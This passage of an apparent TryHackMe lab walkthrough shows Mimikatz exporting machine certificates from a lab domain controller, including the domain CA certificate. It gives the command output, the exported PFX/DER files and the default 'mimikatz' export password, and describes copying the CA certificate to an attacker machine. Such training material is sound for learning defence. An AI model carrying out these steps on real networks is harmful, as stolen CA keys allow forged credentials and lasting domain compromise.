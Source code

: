 ```powershell
mimikatz # crypto::certificates /systemstore:local_machine /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```

The exported certificates will be stored in both PFX and DER format to disk:

- **Terminal**      

```powershell
za\administrator@THMDC C:\Users\Administrator.ZA\am0>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\Tools\x64

05/10/2022  12:12 PM    <DIR>          .
05/10/2022  12:12 PM    <DIR>          ..
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx 
```

The `za-THMDC-CA.pfx`  certificate is the one we are particularly interested in. In order to  export the private key, a password must be used to encrypt the  certificate. By default, Mimikatz assigns the password of `mimikatz`. Download or copy this certificate to your AttackBox using SCP, and then copy it to your low-privileged user's home directory on THMWRK1. You  can also perform the rest of the steps on your own non-domain-joined  Windows machine if you prefer.
